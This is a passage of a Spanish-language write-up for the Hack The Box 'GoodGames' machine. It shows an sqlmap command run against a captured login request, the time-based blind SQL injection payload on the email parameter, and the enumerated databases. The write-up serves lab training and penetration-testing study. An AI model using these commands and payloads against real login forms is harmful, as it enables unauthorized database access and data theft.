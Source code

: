 
#### Vemos el dominio "goodgames.htb", por lo que lo agregamos a nuestro archivo /etc/hosts y procedemos a visitar el sitio.

```
10.10.11.130    goodgames.htb
```

#### Luego de visitar la página encontramos una sección para autenticarnos con "Email" y "Password":

![](https://i.ibb.co/G5n12gT/homepage.png)

#### En base a esto, procedemos a probar si el inicio de sesión es vulnerable a SQL Injection:

Primero capturamos la solicitud (Request) con **Burp Suite** y la guardamos con el nombre "req.txt"

![](https://i.ibb.co/jgM4HPB/req-burpsuite.png)

### SQL Injection - SQLmap

#### Una vez tenemos el archivo *req.txt* con la solicitud interceptada con Burp Suite, procedemos automatizar un ataque de SQL Injection con SQLmap:

Con el siguiente comando le indicamos a la herramienta SQLmap que utilize el Request del archivo "req.txt" (-r req.txt) y que intente enumerar las bases de datos (--dbs).
También le indicamos que durante el ataque no nos pregunte cómo ir procediendo (--batch).

```bash
sqlmap -r req.txt --batch --dbs
```

#### Tenemos suerte, y SQLmap logra encontrar vulnerable el parámetro "email" con una vulnerabilidad a ciegas (Blind) y basada en tiempo (time-based):

```
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=admin@goodgames.htb' AND (SELECT 7407 FROM (SELECT(SLEEP(5)))TmZm) AND 'GEGY'='GEGY&password=password
---
```

#### Finalmente logra encontrar dos bases de datos ("information_schema" y "main"):

```
available databases [2]:
[*] information_schema
[*] main
```
